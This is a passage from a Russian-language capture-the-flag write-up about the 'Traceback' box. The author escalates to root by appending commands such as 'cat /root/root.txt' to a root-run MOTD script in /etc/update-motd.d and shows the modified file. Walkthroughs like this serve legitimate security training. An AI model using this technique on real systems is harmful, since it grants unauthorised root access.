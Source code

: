 ```html
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

>Последнюю строчку мы видели при входе в систему. Редактировать файл невозможно, но можко воспользоваться echo, я вписал "echo "id" >> 00-header" и при следующем входе в систему получил информацию о том, что команда выполняется от root пользователя, поэтому мы просто прочтем нужный нам файл:

```html
sysadmin@traceback:/etc/update-motd.d$ echo "cat /root/root.txt" >> 00-header 
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland kirkland@canonical.com
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cat /root/root.txt
```
